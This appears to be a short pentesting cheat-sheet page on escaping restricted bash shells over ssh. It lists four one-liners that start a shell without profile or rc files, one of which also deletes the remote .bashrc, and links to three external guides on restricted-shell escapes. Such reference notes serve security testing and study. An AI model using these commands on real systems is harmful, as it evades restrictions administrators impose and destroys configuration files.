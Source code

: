 # bypass bash restrictions

## ssh (most common)

```bash
ssh user@IP -t "bash --noprofile"
ssh -t user@IP bash --norc --noprofile
ssh -t user@IP /bin/sh
ssh -t user@IP "bash --norc --noprofile -c '/bin/rm .bashrc'"

```

## References

{% embed url="https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions" %}

{% embed url="https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques" %}

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape" %}
